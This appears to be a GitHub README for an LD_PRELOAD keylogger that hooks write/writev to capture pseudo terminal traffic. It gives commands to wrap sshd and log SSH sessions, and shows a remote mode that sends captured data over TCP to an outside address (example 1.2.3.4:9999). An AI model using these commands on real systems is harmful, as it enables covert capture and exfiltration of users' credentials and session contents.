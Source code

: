 # ptkl - Pseudo Terminal Key Logger

**Beware!** This is very early stage of `LD_PRELOAD` based pseudo terminal key logger.

It overwrites `write` and `writev` libc functions and copies all data as they are to a file descriptor 100 from them for all fds pointing to `/dev/ptmx`.
File descriptor 100 is expected to be open in advance (use shell redirection `100>&2` for example).
Every logged write is prepended with PID, function name, fd number and amount of written data.
For example:
```
201: write: fd: 7: size: 1: s
```
where process with PID `201` wrote with function `write` to the file descriptor `7` one byte `s`.

---

Build with
```
make
```

Run following command to log ssh sessions.
```sh
./ptklify /usr/sbin/sshd -De 100>&2
```

Docker test cheat sheet:
```
docker build --tag=sshd .
docker run --rm --name=sshd sshd
ssh -o UserKnownHostsFile=kh root@172.17.0.2
```

---

## Remote logger
A primitive remote logging option is available. If the `REMOTE_LOGGER` environment variable exists during execution of ptkl then it will try to connect to a remove IP address and port via TCP to send all data that normally is outputted to the file descriptor `100`.
The format for `REMOTE_LOGGER` is `{IPADDR}:{PORT}`. For example:
```bash
 REMOTE_LOGGER="1.2.3.4:9999" ./ptklify /usr/sbin/sshd -De
 ```
